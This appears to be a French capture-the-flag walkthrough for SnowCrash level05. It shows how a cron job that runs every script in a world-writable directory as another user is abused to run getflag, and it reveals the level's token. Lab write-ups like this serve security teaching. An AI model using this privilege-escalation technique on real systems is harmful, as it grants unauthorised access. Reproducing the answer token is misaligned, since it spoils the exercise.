 # level05

1) Information reçue a la connexion

```bash
You have new mail.
```

2) Analyse de la mailbox

```bash
level05@SnowCrash:~$ ls -l /var/mail/level05
-rw-r--r--+ 1 root mail 58 Oct 7 08:14 /var/mail/level05
```

* Le mailbox de `level05` contient une entrée cron indiquant que `/usr/sbin/openarenaserver` est exécuté toutes les 2 minutes en tant que l'utilisateur `flag05`.
```bash
level05@SnowCrash:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

* On verifie Le binaire `/usr/sbin/openarenaserver`

Il exécute **tous** les scripts présents dans `/opt/openarenaserver/` puis supprime chaque script après exécution.
```bash
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh
for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

3) Exploitation pour récupérer le token :

* On crée `/opt/openarenaserver/script.sh` contenant `getflag > /tmp/token` et rends le fichier exécutable.

Lors de la prochaine exécution du service, `getflag` a été lancé en tant que `flag05` et a écrit le token dans `/tmp/token`.

```bash
level05@SnowCrash:/$ cat /tmp/token
Check flag.Here is your token : ...
```

4) Token découvert :

Le token est `viuaaale9huek52boumoomioc`.
